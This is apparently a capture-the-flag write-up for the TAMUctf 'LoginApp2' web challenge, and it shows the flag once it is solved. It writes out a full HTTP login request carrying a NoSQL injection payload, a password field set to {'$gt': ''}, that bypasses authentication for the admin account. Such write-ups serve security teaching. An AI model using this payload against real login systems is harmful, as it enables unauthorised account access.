

## LoginApp2 - Web

**Challenge:** : [http://web4.tamuctf.com](http://web4.tamuctf.com)
**Difficulty:** medium
**Solved by:** Neolex  

**Solution:**  
This challenge is just an exploitation of a nosql injection on login page.
Here is the request to send :
```
POST /login HTTP/1.1 
Host: web4.tamuctf.com 
Content-Length: 63 
Accept: application/json, text/javascript, _/_; q=0.01 
Origin: [http://web4.tamuctf.com/](http://web4.tamuctf.com/ "http://web4.tamuctf.com/") X-Requested-With: XMLHttpRequest 
User-Agent: Googlebot/2.1 (+[http://www.googlebot.com/bot.html](http://www.googlebot.com/bot.html "http://www.googlebot.com/bot.html")) 
Content-Type: application/json;charset=UTF-8 
Referer: [http://web4.tamuctf.com/](http://web4.tamuctf.com/ "http://web4.tamuctf.com/") 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Connection: close 
{ 
	"username": "admin", 
	"password": {"$gt": ""} 
}
```
And we get access to the admin page with the flag : 

**Flag:**  
gigem{n0_sql?_n0_pr0bl3m_8a8651c31f16f5dea}

